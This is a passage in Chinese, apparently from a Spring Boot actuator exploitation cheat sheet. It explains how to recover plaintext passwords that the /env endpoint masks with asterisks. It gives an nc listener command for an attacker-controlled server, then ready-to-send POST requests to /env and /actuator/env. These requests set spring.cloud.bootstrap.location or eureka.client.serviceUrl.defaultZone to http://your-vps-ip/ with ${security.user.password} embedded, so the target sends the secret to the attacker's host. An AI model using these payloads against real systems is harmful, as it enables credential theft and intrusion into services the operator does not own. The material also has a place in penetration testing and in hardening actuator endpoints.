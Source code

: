 ### 0x05：获取被星号脱敏的密码的明文 (方法三)

#### 利用条件：

*   通过 POST `/env` 设置属性触发目标对外网指定地址发起任意 http 请求
    
*   目标可以请求攻击者的服务器（请求可出外网）
    

#### 利用方法：

> 参考 UUUUnotfound 提出的 issue-1，可以在目标发外部 http 请求的过程中，在 url path 中利用占位符带出数据

##### 步骤一：找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。

##### 步骤二：使用 nc 监听 HTTP 请求

在自己控制的外网服务器上监听 80 端口：

```
nc -lvk 80

```

##### 步骤三：触发对外 http 请求

*   `spring.cloud.bootstrap.location` 方法（同时适用于明文数据中有特殊 url 字符的情况）
    

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/?=${security.user.password}


```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/?=${security.user.password}"}


```

*   `eureka.client.serviceUrl.defaultZone` 方法（不适用于明文数据中有特殊 url 字符的情况）
    

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/${security.user.password}


```
